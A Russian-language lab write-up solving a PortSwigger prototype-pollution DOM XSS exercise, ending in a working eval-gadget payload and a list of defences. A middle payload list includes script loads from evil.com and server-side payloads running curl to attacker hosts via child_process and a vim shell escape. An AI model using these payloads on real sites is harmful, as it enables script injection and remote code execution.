






лаба https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-an-alternative-prototype-pollution-vector

задание:
1. Найдите источник, который вы можете использовать для добавления произвольных свойств в глобальную `Object.prototype`
    
2. Определите свойство гаджета, которое позволяет вам выполнять произвольный JavaScript
    
3. Объедините их, чтобы вызвать `alert()`


-----

добавил к урл ГЛАВНОЙ СТР пейлоад
`https://0abe00d603e27af580513f84002b0021.web-security-academy.net/?__proto__[foo]=bar`

запустил в консоли 
`console.log(Object.prototype);`

console.log(Object.prototype);

но в ответе не отражается  bar

-------

пробую пейлоады в адрес строку

`https://0abe00d603e27af580513f84002b0021.web-security-academy.net/?пейлоад`

```c

__proto__[test]=polluted&__proto__[test2]=polluted2&__proto__[test3]=polluted3
__proto__[test]=polluted&constructor.prototype.test2=polluted2
__proto__[test]=polluted&__proto__.test2=polluted2&constructor.prototype.test3=polluted3
__proto__[test]=polluted&__proto__[test]=polluted&__proto__[test]=polluted

__proto__[test]=polluted
__proto__.test=polluted
__proto__.foo=bar
__proto__[test]=polluted&__proto__[test2]=polluted2
__proto__[test]=polluted&__proto__[test2]=polluted2&__proto__[test3]=polluted3
__proto__[__proto__]=polluted
__proto__[__proto__][test]=polluted
__proto__[test]=polluted&__proto__[test]=polluted
__proto__[test]=data:,alert(1)
__proto__[test]=javascript:alert(1)
constructor.prototype.test=polluted
constructor[prototype][test]=polluted
constructor.prototype.test=data:,alert(1)
constructor[prototype][test]=javascript:alert(1)
__proto__[constructor][prototype][test]=polluted
__proto__.constructor.prototype.test=polluted
__proto__.constructor[prototype].test=polluted
__proto__[constructor].prototype.test=polluted
__proto__[constructor][prototype].test=polluted
__proto__.constructor.prototype[test]=polluted
__proto__[constructor].prototype[test]=polluted
prototype.test=polluted
[prototype].test=polluted
prototype[test]=polluted
[prototype][test]=polluted
__proto__['test']=polluted
__proto__["test"]=polluted
__proto__[`test`]=polluted
__proto__[test]=polluted&__proto__[test2]=polluted
__proto__.test=polluted&__proto__.test2=polluted
constructor['prototype']['test']=polluted
constructor["prototype"]["test"]=polluted
constructor[`prototype`][`test`]=polluted
__proto__['constructor']['prototype']['test']=polluted
__proto__["constructor"]["prototype"]["test"]=polluted
__proto__[`constructor`][`prototype`][`test`]=polluted
__pro__proto__to__[test]=polluted
__pro__proto__to__.test=polluted
__proto__proto__[test]=polluted
__proto__proto__[test]=polluted
__proto____proto__[test]=polluted
constructor..prototype.test=polluted
constructor...prototype.test=polluted
__proto__[test]=polluted&__proto__[test2]=polluted
__proto__[test]=polluted&__proto__[test2]=polluted&__proto__[test3]=polluted
%5F%5Fproto%5F%5F%5Btest%5D=polluted
%5F%5Fproto%5F%5F.test=polluted
__proto__%5Btest%5D=polluted
__proto__.test%3Dpolluted
%63%6F%6E%73%74%72%75%63%74%6F%72%2E%70%72%6F%74%6F%74%79%70%65%2E%74%65%73%74%3D%70%6F%6C%6C%75%74%65%64

console.log(Object.prototype);

{"__proto__": {"test": "polluted"}}
{"__proto__": {"test": "data:,alert(1)"}}
{"__proto__": {"test": "javascript:alert(1)"}}
{"constructor": {"prototype": {"test": "polluted"}}}
{"__proto__": {"__proto__": {"test": "polluted"}}}
{"__proto__.test": "polluted"}
{"__proto__": {"test": "polluted"}, "test2": "polluted2"}
{"__proto__": ["test", "polluted"]}
{"__proto__": {"test": ["polluted"]}}
{"__proto__": {"test": {"__proto__": {"test2": "polluted2"}}}}
{"constructor.prototype.test": "polluted"}
{"__proto__.constructor.prototype.test": "polluted"}

#__proto__[test]=polluted
#__proto__.test=polluted
#constructor.prototype.test=polluted
#__proto__[test]=polluted&__proto__[test2]=polluted2
#__proto__[test]=data:,alert(1)
#__proto__[test]=javascript:alert(1)

__proto__[transport_url]=data:,alert(1)
__proto__[transport_url]=javascript:alert(1)
__proto__[transport_url]=data:,alert(document.cookie)
__proto__[transport_url]=data:,alert(1)//example.com
__proto__[transport_url]=//evil.com/script.js
__proto__[transport_url]=https://evil.com/script.js
__proto__[src]=data:,alert(1)
__proto__[callback]=alert(1)
__proto__[onload]=alert(1)
__proto__[onerror]=alert(1)
__proto__[innerHTML]=
__proto__[innerHTML]=<script>alert(1)</script>
__proto__[html]=


{"__proto__": {"status": 555}}
{"__proto__": {"json spaces": 10}}
{"__proto__": {"content-type": "application/json; charset=utf-7"}}
{"__proto__": {"shell": "node", "NODE_OPTIONS": "--inspect=YOUR-ID.oastify.com"}}
{"__proto__": {"execArgv": ["--eval=require('child_process').exec('curl YOUR-ID.oastify.com')"]}}
{"__proto__": {"shell": "vim", "input": ":! curl https://evil.com\n"}}

```
console.log(Object.prototype);

я короче запарился это все вручную делать

--------

запускаю плагин burp инвайдер!




-------

запустил

через консоль открыл вкладку  инвайдер
рефрешнул страницу



и инвайдер нашел кое что





###### уязвимость в какой-то фигне под названием search(1)

вот пейлоад что он нашел
` https://0abe00d603e27af580513f84002b0021.web-security-academy.net/?__proto__.testproperty=DOM_INVADER_PP_POC   `

проверяю через консоль 
Object.prototype  
или так
console.log(Object.prototype);

и вуаля - есть контакт!!!!! епта!!!

то есть пейлоад отразился - красота!



```с

```


-----

подставляю в пейлоад js код для алерта

` https://0abe00d603e27af580513f84002b0021.web-security-academy.net/?__proto__.testproperty=alert(1)   `

отправил в адрес строку 
и ответ есть, через консоль вижу  - `testproperty: 'alert(1)', __defineGetter__: ƒ, ` но самого аллерта нет!




-------

а алерта нет - так как `testproperty`  это не гаджет! и он не выполняет код!

нужно найти кусок код - который выполняется

я заметил - что когда выполняю поиск по сайту - то инвайдер мой тригерится

просмотрел код html страницы

и вот что там нашел


```html
<h1>0 search results for '&lt;script&gt;print(1)&lt;/script&gt;'</h1>
                        <hr>
                    </section>
                    
<script src='/resources/js/jquery_3-0-0.js'></script>

<script src='/resources/js/jquery_parseparams.js'></script>

<script src='/resources/js/searchLoggerAlternative.js'></script>

<section class=search>
```

переходим на `GET /resources/js/searchLoggerAlternative.js HTTP/2`

тут 
```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 766

async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);
```

----

и по адресу `GET /resources/js/jquery_parseparams.js HTTP/2`

ответ
```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 3881

// Add an URL parser to JQuery that returns an object
// This function is meant to be used with an URL like the window.location
// Use: $.parseParams('http://mysite.com/?var=string') or $.parseParams() to parse the window.location
// Simple variable:  ?var=abc                        returns {var: "abc"}
// Simple object:    ?var.length=2&var.scope=123     returns {var: {length: "2", scope: "123"}}
// Simple array:     ?var[]=0&var[]=9                returns {var: ["0", "9"]}
// Array with index: ?var[0]=0&var[1]=9              returns {var: ["0", "9"]}
// Nested objects:   ?my.var.is.here=5               returns {my: {var: {is: {here: "5"}}}}
// All together:     ?var=a&my.var[]=b&my.cookie=no  returns {var: "a", my: {var: ["b"], cookie: "no"}}
// You just cant have an object in an array, ?var[1].test=abc DOES NOT WORK
(function ($) {
    var re = /([^&=]+)=?([^&]*)/g;
    var decode = function (str) {
        return decodeURIComponent(str.replace(/\+/g, ' '));
    };
    $.parseParams = function (query) {
        // recursive function to construct the result object
        function createElement(params, key, value) {
            key = key + '';
            // if the key is a property
            if (key.indexOf('.') !== -1) {
                // extract the first part with the name of the object
                var list = key.split('.');
                // the rest of the key
                var new_key = key.split(/\.(.+)?/)[1];
                // create the object if it doesnt exist
                if (!params[list[0]]) params[list[0]] = {};
                // if the key is not empty, create it in the object
                if (new_key !== '') {
                    createElement(params[list[0]], new_key, value);
                } else console.warn('parseParams :: empty property in key "' + key + '"');
            } else
                // if the key is an array
            if (key.indexOf('[') !== -1) {
                // extract the array name
                var list = key.split('[');
                key = list[0];
                // extract the index of the array
                var list = list[1].split(']');
                var index = list[0]
                // if index is empty, just push the value at the end of the array
                if (index == '') {
                    if (!params) params = {};
                    if (!params[key] || !$.isArray(params[key])) params[key] = [];
                    params[key].push(value);
                } else
                    // add the value at the index (must be an integer)
                {
                    if (!params) params = {};
                    if (!params[key] || !$.isArray(params[key])) params[key] = [];
                    params[key][parseInt(index)] = value;
                }
            } else
                // just normal key
            {
                if (!params) params = {};
                params[key] = value;
            }
        }
        // be sure the query is a string
        query = query + '';
        if (query === '') query = window.location + '';
        var params = {}, e;
        if (query) {
            // remove # from end of query
            if (query.indexOf('#') !== -1) {
                query = query.substr(0, query.indexOf('#'));
            }

            // remove ? at the begining of the query
            if (query.indexOf('?') !== -1) {
                query = query.substr(query.indexOf('?') + 1, query.length);
            } else return {};
            // empty parameters
            if (query == '') return {};
            // execute a createElement on every key and value
            while (e = re.exec(query)) {
                var key = decode(e[1]);
                var value = decode(e[2]);
                createElement(params, key, value);
            }
        }
        return params;
    };
})(jQuery);
```

-----


итак - что я имею :

инвайдер нашел уязвимость! типа `__proto__.testproperty=alert(1)`

но нужно найти правильный гаджет, чтобы алерт сработал!

также инвайдер говорит, что уязвимость в какой-то фигне под названием search(1), но конкретное место в коде не показывается, наверно потому, что в самом браузере этого кода нет, возможно, уязвимость во внешнем файле... хз..

и я еще нашел файл по пути `/resources/js/searchLoggerAlternative.js` и там мелькает search как раз!

поищу в его коде - функции которые могли бы запускать код при пользованием поисковика на сайте!


-----

-----

в файле `/resources/js/searchLoggerAlternative.js`
есть такая строка
let a = manager.sequence || 1;
здесь или  manager.sequence или 1
то есть если нет manager.sequence, тогда по умолчанию будет 1

то есть manager.sequence - может иметь какое -либо значение
или не иметь и заместится 1 

получается что manager - это какой-то обьект со свойствами разными (manager.sequence, manager.params, manager.macros.hasOwnProperty, manager.macro )


```js
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

готовлю пейлоады

```c

__proto__.manager.sequence=alert(1)

__proto__.manager.params=alert(1)

__proto__.manager.macros.hasOwnProperty=alert(1)

__proto__.manager.macro=alert(1)

```

пробую 


```c

__proto__.manager.sequence=alert(1)     - НЕТ АЛЛЕРТА

__proto__.manager.params=alert(1)       - НЕТ АЛЛЕРТА

__proto__.manager.macros.hasOwnProperty=alert(1)       - НЕТ АЛЛЕРТА

__proto__.manager.macro=alert(1)      - НЕТ АЛЛЕРТА


вот так пробовал 
https://0abe00d603e27af580513f84002b0021.web-security-academy.net/?__proto__.manager.macro=alert(1)

пробую так:

__proto__.manager=alert(1)     - НЕТ АЛЛЕРТА

__proto__.sequence=alert(1)     - НЕТ АЛЛЕРТА


__proto__.sequence=alert(1)     - НЕТ АЛЛЕРТА

__proto__.params=alert(1)       - НЕТ АЛЛЕРТА


__proto__.macros.hasOwnProperty=alert(1)       - НЕТ АЛЛЕРТА

__proto__.macro=alert(1)      - НЕТ АЛЛЕРТА
```

ничего не сработало.. 

проверю консоль, что там 
Object.prototype  

на вот этот пейлоад (__proto__.sequence=alert(1)) -  в консоли ошибка вылезла
```c
VM170:1 Uncaught (in promise) SyntaxError: missing ) after argument list
at searchLogger (searchLoggerAlternative.js:18:76)
```

значит мой пейлоад попадает в функцию searchLoggerAlternative!!
и ошибка происходит только с пейлоадом `__proto__.sequence=alert(1)`с остальными ошибки нет!

вот сама функция в которой ошибка!
и я так полагаю, что значение из `__proto__.sequence=alert(1)` подставляется во все места этой функции - где есть sequence
```js
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1; // и видимо сюда и пейлоад выходит alert(1) + 1

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

пробую
```c

__proto__.sequence=alert(1); ошибка

Uncaught (in promise) SyntaxError: missing ) after argument list
    at searchLogger (searchLoggerAlternative.js:18:76)
    
    ошибка вот в этой строчке подсвечивается
    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
    -------------------


__proto__.sequence=alert(1)//    эта же ошибка в этой же строчке  

__proto__.sequence=alert(1),1 СРАБОТАЛО АЛЛЛЛИИЛЛУЛУУЯЯ


-----

итого, вот запрос
https://0abe00d603e27af580513f84002b0021.web-security-academy.net/?__proto__.sequence=alert(1),1

⭐️ лаба решена! пейлоад  /?__proto__.sequence=alert(1),1
```




--------


### выводы

в этой лабе я использовал prototype pollution чтобы выполнить dom xss 

источником уязвимости оказался не стандартный `__proto__[foo]=bar` ,

а синтаксис с точкой `/?__proto__.foo=bar`,
добавив это в url я смог добавить произвольные свойства в `Object.prototype`,

затем я изучил javascript файлы загружаемые на странице и в файле `searchLoggerAlternative.js` нашел интересный код,

там создавался объект `manager` у которого не было своего свойства `sequence`
,
но в коде была строка `let a = manager.sequence || 1` и затем `manager.sequence = a + 1`, а после этого значение подставлялось в `eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }')` , здесь я понял что могу добавить `sequence` (но перепробовал там несколько вариантов на всякий случай, из-за неопытности)  в прототип через url, и тогда объект `manager` унаследует это свойство.

Попробовав `/?__proto__.sequence=alert(1)` я получил ошибку в консоли

Проанализировав код, понял что к моему значению добавляется единица и в `eval` попадает `alert(1)1` , что и вызывает синтаксическую ошибку,
недолго перебирая варианты,
добавив запятую и единицу `/?__proto__.sequence=alert(1),1` тем самым - я исправил синтаксис, и в итоге код выполнился и появился alert

### защита

 во первых, нужно замораживать прототипы с помощью `Object.freeze(Object.prototype)` ,
 чтобы никакие свойства нельзя было добавить в прототип
 
  во вторых,, при создании объектов лучше использовать `Object.create(null)` такие объекты не имеют прототипа и не наследуют ничего из `Object.prototype`
  
  в третьих, для хранения данных безопаснее использовать `Map` вместо обычных объектов потому что `Map` не наследует свойства из прототипа
  
в четвертых, если без мержа объектов не обойтись, нужно тщательно валидировать ключи и не допускать использование ключей типа `__proto__` и `constructor`

просто добавить эти ствойства в код. одна строчка кода - и проблем нет (или почти нет)

разработчики часто блокируют ключ `__proto__`, думая что это защитит от загрязнения. Но есть обход через свойство **`constructor`**
поэтому конструктор тоже нужно блочить
